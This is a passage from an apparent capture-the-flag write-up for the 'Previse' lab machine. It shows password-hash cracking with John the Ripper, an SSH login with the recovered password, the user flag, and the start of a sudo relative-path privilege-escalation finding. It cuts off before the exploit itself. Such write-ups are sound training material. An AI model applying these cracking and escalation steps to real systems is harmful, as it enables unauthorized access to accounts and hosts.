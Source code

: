     :::text
    $ john -w=rockyou.txt hash --format=md5crypt-long
    --------------------------------------------------------------------------
    Loaded 3 password hashes with no different salts (md5crypt-long, crypt(3) $1$ (and variants) [MD5 32/64])
    Will run 8 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    123456           (?)
    12345            (?)
    2g 0:00:00:51 6.65% (ETA: 15:36:49) 0.03919g/s 21235p/s 21235c/s 21238C/s 438700..4358427
    2g 0:00:02:09 18.48% (ETA: 15:35:40) 0.01550g/s 22220p/s 22220c/s 22221C/s vixieskathys109..vixen911
    ilovecody112235! (?)
    3g 0:00:06:35 DONE (2021-08-28 15:30) 0.007588g/s 18752p/s 18752c/s 18752C/s ilovecoke95..ilovecody*
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed


We use this password to connect on the SSH service and get the user flag.

    :::text
    └─$ ssh m4lwhere@10.129.193.153 #ilovecody112235!
    m4lwhere@previse:~$ id
    uid=1000(m4lwhere) gid=1000(m4lwhere) groups=1000(m4lwhere)
    m4lwhere@previse:~$ cat user.txt
    15af390166c631f24622d77948ba2444


# Root

We look at our `sudo` privileges and found that we can run a bash script as
root.

    :::text
    m4lwhere@previse:~$ sudo -l
    [sudo] password for m4lwhere:
    User m4lwhere may run the following commands on previse:
        (root) /opt/scripts/access_backup.sh

Looking at the script we quickly notice the use of a relative path to call the
`gzip` binary we should be able to easily run anything.

    :::text
    m4lwhere@previse:~$ cat /opt/scripts/access_backup.sh
    #!/bin/bash

    # We always make sure to store logs, we take security SERIOUSLY here

    # I know I shouldnt run this as root but I cant figure it out programmatically on my account
    # This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time
